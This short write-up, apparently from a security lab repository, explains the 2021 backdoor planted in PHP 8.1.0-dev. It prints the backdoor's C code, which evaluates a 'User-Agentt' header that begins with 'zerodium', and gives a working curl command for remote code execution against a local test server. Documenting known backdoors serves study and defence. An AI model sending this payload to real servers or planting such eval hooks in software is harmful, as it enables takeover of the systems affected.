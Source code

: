 # PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution

## Requirements

 - The server needs to run on a specific backdoored version of PHP (PHP-8.1.0-dev)

## Introduction

A compromised git account pushed code to the PHP source repository introducing a backdoor in commit [c730aa26bd52829a49f2ad284b181b7e82a68d7d](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d):

```c
{
    zval zoh;
    php_output_handler *h;
    zval *enc;

    if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY || zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
        (enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]), "HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
        convert_to_string(enc);
        if (strstr(Z_STRVAL_P(enc), "zerodium")) {
            zend_try {
                zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
            } zend_end_try();
        }
    }
}
```

This code evaluates a string contained in the `User-Agentt` header if this string starts with `zerodium`.

## Exploitation

You can execute PHP code (prefixed by the string `zerodium`) on the remote machine through the `User-Agentt` header:

```sh
curl -H 'Accept-Encoding: deflate' -H "User-Agentt: zerodiumsystem('id');" 'http://127.0.0.1:10080/dummy.php'
```

## References
 - https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
 - https://news-web.php.net/php.internals/113838
